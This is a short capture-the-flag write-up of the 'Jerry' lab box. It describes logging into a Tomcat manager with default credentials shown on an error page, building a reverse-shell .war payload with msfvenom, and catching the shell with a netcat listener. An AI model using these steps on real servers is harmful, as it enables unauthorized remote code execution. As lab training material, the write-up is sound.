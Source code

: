 # writeup

## Jerry

Jerry was a an easy windows box that didnt require much and had no privelage escalation. We get the user flag and the root flag at the same stage

> Skills involved in this box
>
> * enumeration
> * msfvenom payload creation
> * metasploit
> * web reverse shells

## USER

We first begin our nmap scan and find that there is only port 8080 open.

We visit the web page which is running the tomcat web application and click on the tab that says `manager app`.

It asks for credentials so we click off it. By doing this it exposes us to an error page where it gives us details that it requires the credentials `tomcat:s3cret`.

We login using theese creds and we find a new page that has an uplaod feature where we can upload `.war` files We can use msfvenom to create a payload for our .war file

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your ip LPORT=1234 -f war > backdoor.war
```

We then upload the file to the site and execute it. We setup a listener with `nc -nlvp 1234` and we get a connection. We enumerate files until we finllay find the flags in this folder:

```text
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```

we can simply use `type` to read the file. Thanks for reading

